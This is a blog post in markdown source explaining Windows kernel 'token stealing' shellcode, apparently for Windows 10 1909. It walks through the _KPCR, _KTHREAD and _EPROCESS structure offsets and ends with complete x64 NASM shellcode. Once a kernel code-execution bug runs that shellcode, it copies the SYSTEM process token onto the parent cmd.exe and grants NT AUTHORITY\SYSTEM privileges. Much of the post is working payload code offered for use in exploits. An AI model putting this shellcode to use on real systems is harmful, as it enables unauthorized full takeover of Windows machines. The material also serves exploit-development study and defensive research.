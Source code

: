 ```yaml
---
title: "Windows Kernel Shellcode : TokenStealer"
tags: ["windows", "exploit", "shellcode", "kernel", "token"]
date: 2020-02-03T16:25:30+01:00
draft: false
---
```


A typical Reverse/Bind shellcode will not work when it comes to Windows Kernel Exploitation, most of the time people often use (Nulling out ACLs, Enabling privileges or Replacing process token).

<!--more-->
### TL;DR
In this post i'd like to focus on the **"Replacing process token"** Shellcode. So the idea here is to find a privileged process and copy his token to an unprivileged process, normally will be our parent process (remember that an exploit (**exploit.exe**) are executed by a command line (**cmd.exe**) which is the parent process).

to summarize the steps :

- Find the EPROCESS address of the current process.
- Find the EPROCESS address of the parent process.
- Find the EPROCESS address of the SYSTEM process.
- Copy the token of SYSTEM process to parent process.
- We own the NT AUTHORITY/SYSTEM.

To try this please make sure that you in a context where you have arbitrary kernel mode code execution and you can run assembly code. 

> Please note that you need to adopt the offsets based on the windows build number you're using it ! Check https://www.vergiliusproject.com/ for more info.

#### Step 1

In our shellcode we need to start by locating the `_KTHREAD* CurrentThread` structure of the current process, let's see step by step how to find it !

The `GS[0]` segment point at the [_KPCR](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPCR) (Kernel Processor Control Region) structure which contains information about the processor.

![_KPCR Structure](/img/windows-kernel-shellcode-tokenstealer/KPCR.PNG)

In the last field of `KPCR`, exactly in `GS[0x180]` segment we can find the [_KPRCB](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPRCB) (Kernel Processor Control Region Block) structure which contains information about the current Thread.

![_KPRCB Structure](/img/windows-kernel-shellcode-tokenstealer/KPRCB.PNG)

As you can see the offset `0x08` of `KPRCB` point at a [_KTHREAD* CurrentThread](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KTHREAD) structure of the CurrentThread, which is at `GS[0x188]`. So first instruction in assembly will be : 

```plaintext
mov r9, qword [gs:0x188]  ; Pointing at _KTHREAD structure
```
#### Step 2 

![_KPRCB Structure](/img/windows-kernel-shellcode-tokenstealer/KTHREAD.PNG)

What we care more about in the `_KTHREAD` structure is the offset `0x220` where we can find the [_KPROCESS* Process](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPROCESS) structure. 

> The _KPROCESS structure is first field in the [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_EPROCESS) structure. So the address of _KPROCESS is the same as the address of _EPROCESS.

```plaintext
mov r9, qword [r9 + 0x220]  ; Pointing at _KPROCESS/_EPROCESS structure
```

#### Step 3

![_EPROCESS Structure](/img/windows-kernel-shellcode-tokenstealer/EPROCESS.PNG)

As we can see the offset `0x3e8` from the `_EPROCESS` point at the `InheritedFromUniqueProcessId` which is the **parent PID** (cmd.exe in our case).

```plaintext
mov r8, qword [r9 + 0x3e8]  ; Saving the Parent PID in r8
mov rax, r9                 ; Saving the _KPROCESS/_EPROCESS address
```

### To summarize

![EPROCESS Memory Map](/img/windows-kernel-shellcode-tokenstealer/EPROCESS-MAP.png)

#### Step 4

Now we have the parent PID, it's time to look for the `_EPROCESS` structure associated to it !

![PID](/img/windows-kernel-shellcode-tokenstealer/PID.PNG)

The offset `0x2f0` point at the `_LIST_ENTRY ActiveProcessLinks` structure, which is a linked-list points at the beginning of `_EPROCESS` structure for each **Active Process**. 

So we need loop over them and each time we compare the PID value with the `VOID* UniqueProcessId` (offset `0x2e8`), until we find the right `_EPROCESS` of the parent PID.

```plaintext
loop1:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8   ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
```
#### Step 5

Once we found the right `_EPROCESS` structure, we need to save the address that point at the `_EX_FAST_REF Token` (offset `0x360`), which is the token that need to be replaced.

```plaintext
mov rcx, rax    ; Copy the _EPROCESS address to RCX
add rcx, 0x360  ; Pointing RCX at Token
```
#### Step 6

We need to do the same thing with a **privileged process**. Most of the time we use the `system` process (PID of `4`).

```plaintext
loop2:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4  ; Compare the PID (4) with the UniqueProcessId
jne loop2
```

#### Step 7

After we find the `_EPROCESS` structure of the privileged process, it's time to replace the token of the unprivileged process (Parent PID **cmd.exe**) with the token of the privileged process **system**.

```plaintext
mov rdx, rax            ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360          ; Pointing RDX at the Token of system
mov rdx, qword [rdx]    ; Copying the Token
mov qword [rcx], rdx    ; Replace the cmd.exe Token with the system Token
ret
```
### Exploit

![NT AUTHORITY/SYSTEM](/img/windows-kernel-shellcode-tokenstealer/SYSTEM.PNG)

### Final Code

```nasm
[bits 64]
global _start

section .text

_start:
mov r9, qword [gs:0x188]     ; Pointing at _KTHREAD structure
mov r9, qword [r9 + 0x220]   ; Pointing at _KPROCESS/_EPROCESS structure
mov r8, qword [r9 + 0x3e8]   ; Saving the Parent PID in r8 / you can change it directly with a PID value from your choice !
mov rax, r9                  ; Saving the _KPROCESS/_EPROCESS address
loop1:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8  ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
mov rcx, rax                 ; Copy the _EPROCESS address to RCX
add rcx, 0x360               ; Pointing RCX at Token
mov rax, r9
loop2:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4 ; Compare the PID (4) with the UniqueProcessId
jne loop2
mov rdx, rax                 ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360               ; Pointing RDX at the Token of system
mov rdx, qword [rdx]         ; Copying the Token
mov qword [rcx], rdx         ; Replace the cmd.exe Token with the system Token
ret
```

#### Sources:
* [Improsec](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1)
* [Cesar Cerrudo in 2012](https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf)
* [InfoSecInstitute](https://resources.infosecinstitute.com/kernel-exploitation-part-2/)